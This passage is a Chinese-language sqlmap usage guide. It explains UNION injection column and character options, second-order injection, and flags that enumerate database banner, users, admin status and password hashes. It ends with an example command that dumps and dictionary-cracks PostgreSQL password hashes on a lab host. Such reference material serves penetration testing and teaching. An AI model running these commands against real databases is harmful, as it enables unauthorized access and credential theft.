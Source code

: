 默认情况下sqlmap测试UNION查询注入会测试1-10个字段数，当--level为5的时候他会增加测试到50个字段数。设定--union-cols的值应该是一段整数，如：12-16，是测试12-16个字段数。
设定UNION查询使用的字符

参数：--union-char

默认情况下sqlmap针对UNION查询的注入会使用NULL字符，但是有些情况下会造成页面返回失败，而一个随机整数是成功的，这是你可以用--union-char只定UNION查询的字符。
二阶SQL注入

参数：--second-order

有些时候注入点输入的数据看返回结果的时候并不是当前的页面，而是另外的一个页面，这时候就需要你指定到哪个页面获取响应判断真假。--second-order后面跟一个判断页面的URL地址。
列数据
标志

参数：-b,--banner

大多数的数据库系统都有一个函数可以返回数据库的版本号，通常这个函数是version()或者变量@@version这主要取决与是什么数据库。
用户

参数：-current-user

在大多数据库中可以获取到管理数据的用户。
当前数据库

参数：--current-db

返还当前连接的数据库。
当前用户是否为管理用

参数：--is-dba

判断当前的用户是否为管理，是的话会返回True。
列数据库管理用户

参数：--users

当前用户有权限读取包含所有用户的表的权限时，就可以列出所有管理用户。
列出并破解数据库用户的hash

参数：--passwords

当前用户有权限读取包含用户密码的彪的权限时，sqlmap会现列举出用户，然后列出hash，并尝试破解。

例子：

$ python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" --passwords -v 1
[...]
back-end DBMS: PostgreSQL
[hh:mm:38] [INFO] fetching database users password hashes
do you want to use dictionary attack on retrieved password hashes? [Y/n/q] y
[hh:mm:42] [INFO] using hash method: 'postgres_passwd'
what's the dictionary's location? [/software/sqlmap/txt/wordlist.txt]
[hh:mm:46] [INFO] loading dictionary from: '/software/sqlmap/txt/wordlist.txt'
do you want to use common password suffixes? (slow!) [y/N] n
[hh:mm:48] [INFO] starting dictionary attack (postgres_passwd)
[hh:mm:49] [INFO] found: 'testpass' for user: 'testuser'
[hh:mm:50] [INFO] found: 'testpass' for user: 'postgres'
database management system users password hashes:
[*] postgres [1]:
    password hash: md5d7d880f96044b72d0bba108ace96d1e4
    clear-text password: testpass
[*] testuser [1]:
    password hash: md599e5ea7a6f7c3269995cba3927fd0093
    clear-text password: testpass
